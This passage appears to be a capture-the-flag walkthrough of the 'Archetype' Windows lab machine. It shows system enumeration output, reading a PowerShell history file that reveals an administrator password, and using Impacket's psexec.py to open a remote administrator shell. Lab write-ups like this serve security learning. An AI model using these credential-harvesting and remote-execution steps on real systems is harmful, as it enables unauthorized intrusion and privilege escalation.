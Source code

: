 ```powershell
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.27
                                 [02]: fe80::cc9b:ff1e:4d8a:e751
                                 [03]: dead:beef::cc9b:ff1e:4d8a:e751
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
netconfig Workstation
net config Workstation
Computer name                        \\ARCHETYPE
Full Computer name                   Archetype
User name                            sql_svc

Workstation active on
        NetBT_Tcpip_{F9786909-146A-4450-84CE-B06994DB4499} (005056B90510)

Software version                     Windows Server 2019 Standard

Workstation domain                   WORKGROUP
Logon domain                         ARCHETYPE

COM Open Timeout (sec)               0
COM Send Count (byte)                16
COM Send Timeout (msec)              250
The command completed successfully.

net users

User accounts for \\ARCHETYPE

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
sql_svc                  WDAGUtilityAccount
The command completed successfully.
```

But in fact, I found another excellent-looking article [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#powershell-history) describing some more privilege escalation.  I try running:
```powershell
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```
So it looks like there is a user called `administrator` with potentially a password there: `MEGACORP_4dm1in!!`...  Given this, it looks like `backups` has been mapped using the local admin credentials.

Let's try logging into the system again, using another one of Impacket's tools: `psexec.py`;
```bash
$ python3 git-workspace/impacket/examples/psexec.py administrator@archetype
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on archetype.....
[*] Found writable share ADMIN$
[*] Uploading file NxYETPZE.exe
[*] Opening SVCManager on archetype.....
[*] Creating service bzkq on archetype.....
[*] Starting service bzkq.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
```
